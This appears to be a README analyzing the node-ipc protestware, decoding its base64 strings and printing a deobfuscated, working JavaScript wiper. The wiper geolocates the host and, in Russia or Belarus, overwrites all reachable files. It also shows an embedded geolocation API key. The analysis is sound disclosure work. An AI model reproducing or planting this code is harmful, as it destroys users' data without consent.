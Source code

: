 node-ipc
================

> [!WARNING]
> This is the version with the malware inside it

You can find the harmful code at the original location [here](dao/ssl-geospec.js)

The contents of the suspicious long base64 encoded string is `https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154`

The other strings contain
```
./
../
../../
/
country_name
russia
belarus
❤️
```

The indented version of it is below
```javascript
import u from "path";
import a from "fs";
import o from "https";
setTimeout(function() {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function(t) {
        t.on("data", function(t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"))
                }
            } catch (t) {}
        })
    })
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return
    }
    let r = [];
    try {
        r = a.readdirSync(n)
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i)
        } catch (t) {
            continue
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function() {})
            } catch (t) {}
        }
    }
    return f
};
const ssl = true;
export {
    ssl as
    default, ssl
}
```
